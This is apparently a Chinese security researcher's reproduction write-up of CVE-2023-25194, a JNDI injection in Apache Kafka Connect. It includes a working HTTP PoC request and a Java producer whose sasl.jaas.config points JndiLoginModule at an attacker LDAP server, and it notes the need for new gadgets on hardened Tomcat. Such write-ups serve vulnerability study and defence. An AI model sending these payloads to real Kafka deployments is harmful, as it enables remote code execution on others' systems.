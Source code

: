 # 简介
Apache Kafka是一种分布式的，基于发布/订阅的消息系统。

* 生产者和消费者（producer和consumer）：消息的发送者叫 Producer，消息的使用者和接受者是 Consumer，生产者将数据保存到 Kafka 集群中，消费者从中获取消息进行业务的处理。
* broker：Kafka 集群中有很多个Server，其中每一个Server都可以存储消息，将每一个Server 称为一个kafka 实例，也叫做 broker。
* 主题（topic）：一个 topic 里保存的是同一类消息，相当于对消息的分类，每个 producer 将消息发送到 kafka 中，都需要指明要存的 topic 是哪个，也就是指明这个消息属于哪一类。
* 分区（partition）：kafka基于文件进行存储,每个 topic 都可以分成多个 partition，每个 partition 在存储层面是 append log 文件。

Apache Kafka 的一个关键依赖是 Apache Zookeeper，它是一个分布式配置和同步服务。Zookeeper 是 Kafka 代理和消费者之间的协调接口。Kafka 服务器通过 Zookeeper 集群共享信息。

CVE-2023-25194是发生在 Apache Kafka Connector中的JNDI注入漏洞。通过 Kafka Connect REST API 配置连接器时，经过身份验证的操作员可以将连接器的任何Kafka客户端的“sasl.jaas.config”属性设置为“com.sun.security.auth.module.JndiLoginModule”，LoginModule允许访问用户指定的JNDI 服务提供商，因此导致JNDI注入。

影响版本: Kafka<3.4.0,因为: "Since Apache Kafka 3.4.0, we have added a system property ("org.apache.kafka.disallowed.login.modules") to disable the problematic login modules usage in SASL JAAS configuration. Also by default "com.sun.security.auth.module.JndiLoginModule" is disabled from Apache Kafka 3.4.0."

# 复现

POC参考https://github.com/ohnonoyesyes/CVE-2023-25194：

```java
POST /connectors HTTP/1.1
Host: xxxx:8083
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
Connection: close
Content-Length: 1109

{"name": "test", 
   "config":
    {
        "connector.class":"io.debezium.connector.mysql.MySqlConnector",
    	"database.hostname": "xxxxx",
    	"database.port": "3306",
    	"database.user": "root",
    	"database.password": "xxxxxx",
    	"database.dbname": "xxxx",
    	"database.sslmode": "SSL_MODE",
        "database.server.id": "1234",
    	"database.server.name": "localhost",
        "table.include.list": "MYSQL_TABLES",
    	"tasks.max":"1",
        "topic.prefix": "aaa22",
        "debezium.source.database.history": "io.debezium.relational.history.MemoryDatabaseHistory",
        "schema.history.internal.kafka.topic": "aaa22",
        "schema.history.internal.kafka.bootstrap.servers": "kafka:9202",
    	"database.history.producer.security.protocol": "SASL_SSL",
    	"database.history.producer.sasl.mechanism": "PLAIN",
    	"database.history.producer.sasl.jaas.config": "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://aaa\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
    }
}
```

这里直接通过将producer中配置项设置为`com.sun.security.auth.module.JndiLoginModule` 方式进行验证:

* 下载kafka
* 启动server和zookeeper
```shell
bin\windows\zookeeper-server-start.bat config\zookeeper.properties
bin\windows\kafka-server-start.bat config\server.properties
```
* 设置好rmi server

使用下面的代码将kafka的认证方式设置为com.sun.security.auth.module.JndiLoginModule,从而触发JndiLoginModule中的InitialContext.lookup(userProvider):
```java
public class ProducerDemo {

    public static void main(String[] args) {
        System.out.println("I am a Kafka Producer");

        // producer properties
        String bootstrapServers = "127.0.0.1:9092";

        // create Producer properties
        Map configs = new HashMap();
        configs.put(ProducerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        // https://kafka.apache.org/documentation/#producerconfigs_sasl.jaas.config
        configs.put("SSL","true");
        configs.put("sasl.mechanism","PLAIN");
        configs.put("security.protocol","SASL_SSL");
        configs.put("sasl.jaas.config","com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://attacker_server\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";");

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        // create a producer record
        ProducerRecord<String, String> producerRecord = new ProducerRecord<>("first_topic", "hello world");
        // send data - asynchronous
        producer.send(producerRecord);
        // flush data - synchronous
        producer.flush();
        // flush and close producer
        producer.close();
    }
}
```
![](images/1.png)

# 漏洞原理

好像也没啥需要进一步分析的,只要攻击者可以控制kafka-clients连接时的属性，将属性sasl.jaas.config值设置为com.sun.security.auth.module.JndiLoginModule，使其能够发起JNDI连接，就会导致JNDI注入漏洞。

# 关联的其他CVE
Apache Druid最新的JNDI注入漏洞也是一样的原理。

# 其他
之前一直使用BeanFactory挺好用的，但是最近复现的时候发现在tomcat>8.5.78的版本上报错如下:
```shell
The forceString option has been removed as a security hardening measure. Instead, if the setter method doesn't use String, a primitive or a primitive wrapper, the factory will look for a method with the same name as the setter that accepts a String and use that if found.
```
![](images/2.png)
看tomcat的变更记录也有提到: https://tomcat.apache.org/tomcat-8.5-doc/changelog.html
![](images/3.png)

需要找其他的gadgets来替代了。